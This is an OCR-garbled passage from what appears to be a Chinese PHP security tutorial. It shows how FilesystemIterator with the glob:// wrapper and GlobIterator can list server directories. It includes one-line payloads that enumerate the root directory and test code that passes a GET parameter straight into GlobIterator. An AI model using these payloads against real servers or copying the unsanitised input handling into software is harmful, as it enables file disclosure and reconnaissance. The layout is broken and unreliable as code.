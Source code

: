       
      
      
    #payload 一句的形式：  
    $a = new  FilesystemIterator ( "glob:///*" ); foreach ( $a  as  $f ){ echo ( $f ->__toString(). '  
    ' );}  
      
  
---|---  
  
`  
`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084313.png)`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084314.png)`

  * `使用 GlobIterator 类`

`由于使用 GlobIterator 类支持直接通过模式匹配来寻找文件路径，所以我们就不用配合glob://协议了。`

`测试代码：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10  
    

|

    
    
      
    $dir = $_GET [ 'whoami' ];   
    $a = new  GlobIterator ( $dir );   
    foreach ( $a  as  $f ){ echo ( $f ->__toString(). '  
    ' ); // 不加__toString()也可,因为echo可以自动调用} ?>  
          
      
      
      
    #payload 一句的形式：  
    $a = new  FilesystemIterator ( "/*" ); foreach ( $a  as  $f ){ echo ( $f ->__toString(). '  
    ' );}  
      